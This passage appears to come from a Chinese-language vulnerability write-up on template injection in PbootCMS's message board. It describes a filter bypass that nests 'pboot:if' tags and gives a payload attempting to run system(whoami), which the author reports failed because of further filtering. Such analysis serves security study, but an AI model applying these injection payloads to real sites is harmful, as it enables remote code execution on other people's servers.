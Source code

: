    <img src="img/break2_comment_test1_305.png" alt="image-20220722200700019" style="zoom:50%;" />

   - 在两个 `pboot:if` 标签被过滤之后，系统执行 `{pboot:if(TRUE)}test{/pboot:if}` ，输出条件为 `true`，`test` 作为文本被输出到留言板中
   - 参考 [PbootCMS 开发手册](https://www.pbootcms.com/docs/235.html) 使用 `pboot:if` 标签，作用为根据条件输出不同内容

2. 尝试构造 `payload` 为 `{pbootpbootpboot:if:if:if(system(whoami))}test{/pbootpbootpboot:if:if:if}` 打印用户登录信息

   执行失败，说明系统存在其他过滤手段
